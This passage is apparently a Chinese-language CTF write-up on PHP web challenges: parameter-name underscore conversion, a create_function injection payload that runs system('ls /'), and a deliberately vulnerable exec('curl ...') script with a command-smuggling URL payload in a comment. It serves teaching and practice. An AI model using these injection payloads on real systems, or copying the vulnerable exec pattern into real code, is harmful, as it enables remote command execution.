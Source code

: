 这个考点就是php传参的时候会对那些不规范不合法的符号转换为`_`

```
在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、+、点、[转换为下划线，但是用一个特性是可以绕过的，就是当[提前出现后，后面的点就不会再被转义了，such as：`CTF[SHOW.COM`=>`CTF_SHOW.COM`
```

第五步：

考点：create_function注入

![image-20220630202937201](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220630202937201.png)

可以利用create_funtion函数来进行命令注入

而且需要绕过正则，这个正则匹配大小写字母和短横线

利用`\`来绕过

payload

```php
action=\create_function&arg=echo 1;}system("ls /");//
```

##  babyupload

##  自创题

```php
// index.php
<?php
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){// 检验是否是合法url
    $site_info = parse_url($url); // 解析url, 返回他的组成部分
    echo '<br>'.'host为'.$site_info['host'].PHP_EOL;
    //var_dump($site_info);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){//需要host部分是指定的,$表示匹配字符串的结束，因此只要结尾有这个host就可以
        echo 'curl "'.$site_info['host'].'"'.PHP_EOL;
        exec('curl "'.$site_info['host'].'"', $result);// ?url=javascript://";dir;"sec-redclub.com
        echo '<br>'.$result.PHP_EOL;
        var_dump($result);
        echo 'curl "'.$site_info['host'].'"';
        echo "<center><h1>You have curl {$site_info['host']} successfully!</h1></center>
              <center><textarea rows='20' cols='90'>";
        echo implode(' ', $result);
    }
    else{
        die("<center><h1>Error: Host not allowed</h1></center>");
    }

}
else{
    echo "<center><h1>Just curl sec-redclub.com!</h1></center><br>
          <center><h3>For example:?url=http://sec-redclub.com</h3></center>";
}

?>
```
